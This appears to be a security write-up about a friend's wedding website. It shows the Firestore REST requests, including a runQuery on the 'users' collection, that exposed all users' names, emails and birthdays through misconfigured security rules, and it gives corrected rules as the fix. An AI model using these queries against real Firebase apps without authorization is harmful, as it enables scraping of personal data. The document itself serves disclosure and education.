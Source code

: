 # The research goal
A friend of mine created a wedding website and I wanted to make sure it's secured.

# The research
## Requests inspections
Looking through the requests the website seems pretty well written- they use a lot of google APIs for their authentication and storage. So what could go wrong?

## The different requests
As every website, there're a lot of requests, but seems most of the logic was using Google APIs - auth and storage. Let's have some fun and research the Google APIs.

### login
request:
```
POST identitytoolkit.googleapis.com/v1/accounts:signInWithPassword?key={{key}}

{
  "returnSecureToken": true,
  "email": "homigrotas@some.mail",
  "password": "testtest",
  "clientType": "CLIENT_TYPE_WEB"
}
```

response:
```json
{
	"error": {
		"code": 400,
		"message": "INVALID_LOGIN_CREDENTIALS",
		"errors": [
			{
				"message": "INVALID_LOGIN_CREDENTIALS",
				"domain": "global",
				"reason": "invalid"
			}
		]
	}
}
```

### storage
### Quick Intro: What is Firestore?
Firestore is a NoSQL database by Google that's part of Firebase. It’s designed for apps — fast, flexible, and scalable. It works great *if* it’s configured properly.

The key thing is that Firestore relies on **security rules** to control who can read and write data. If those rules aren’t set up right, any authenticated user might get access to data they shouldn’t.

### researching the app firestore
After I created a user and logged in, I saw a weird API call I wasn't familliar with in websites:


```
POST https://firestore.googleapis.com/v1/projects/{{project_id}}/databases/(default)/documents:runAggregationQuery
```
Who doesn't want to query a DB? Certianly I LOVE!
<br>
So, first we would like to know which collections exist. Trying the following request
```
POST https://firestore.googleapis.com/v1/projects/{{project_id}}/databases/(default)/documents:listCollectionIds
```

response:
```
{
  "error": {
    "code": 403,
    "message": "Missing or insufficient permissions.",
    "status": "PERMISSION_DENIED"
  }
}
```
well... maybe I wasn't so smart after all. They probably set permissions, and ofcourse I don't enough permissions to get all the project collection. Do I?

I saw I was able to change the aggergation query, so maybe I could make some quries?

request
```
POST https://firestore.googleapis.com/v1/projects/{{project_id}}/databases/(default)/documents:runAggregationQuery\

{
  "structuredAggregationQuery": {
    "aggregations": [
      {
        "alias": "aggregate_0",
        "count": {}
      }
    ],
    "structuredQuery": {
      "from": [
        {
          "collectionId": "eventChats"
        }
      ]
    }
  }
}
```

response
```json
[{
  "result": {
    "aggregateFields": {
      "aggregate_0": {
        "integerValue": "0"
      }
    }
  },
  "readTime": "2025-08-01T15:34:01.251261Z"
}
]
```


Eventually, I found the following query using [firestore API documentation](https://cloud.google.com/firestore/docs/reference/rest/v1/projects.databases.documents/runQuery). Let's try to query possible collections. As we already know, we're familliar with one collection in the Firestore storage, but I didn't find it meaningful as we could scrape it. What about the website users?

```
POST https://firestore.googleapis.com/v1/projects/{{project_id}}/databases/(default)/documents:runQuery

{
  "structuredQuery": {
    "from": [{ "collectionId": "users" }]
  
  }
}
```

And we got our desire- all the users!
```
[{
  "document": {
    "name": "projects/{{project_id}}/databases/(default)/documents/users/0vg....",
    "fields": {
      "firebaseUid": {
        "stringValue": "0vg...."
      },
      "name": {
        "stringValue": "...."
      },
      "email": {
        "stringValue": "...@gmail.com"
      },
      "profileImageUrl": {
        "stringValue": "..."
      },
      "birthday": {
        "stringValue": "1998-08-17"
      },
      "createdAt": {
        "timestampValue": "2025-07-21T16:44:44.075Z"
      },
      "updatedAt": {
        "timestampValue": "2025-07-21T16:44:44.075Z"
      }
    },
    "createTime": "2025-07-21T16:44:44.123596Z",
    "updateTime": "2025-07-21T16:44:44.123596Z"
  },
  "readTime": "2025-08-01T14:16:16.474399Z"
},
    ....
]
```
## So what went wrong?
The developers were using Firebase Auth — which is great — but they didn’t configure Firestore’s security rules properly. That meant any logged-in user could query collections like users, even if they weren’t supposed to.

## How to fix it
set Firestore rules correctly, such as in the following example:
```js
rules_version = '2';
service cloud.firestore {
  match /databases/{database}/documents {

    // Only allow users to read/write their own document
    match /users/{userId} {
      allow read, write: if request.auth != null && request.auth.uid == userId;
    }

    // For eventChats, allow only logged-in users to read, or limit further
    match /eventChats/{chatId} {
      allow read: if request.auth != null;
      allow write: if false; // or restrict to specific roles
    }
  }
}
```

# Final Thoughts
When I saw the site was using Firebase, I figured it was probably fine. Turns out, the infrastructure was solid, but the rules were weak.

Moral of the story? Tools don’t make your app secure — you do. So test like an attacker and think like a developer.

Have fun exploring :) 

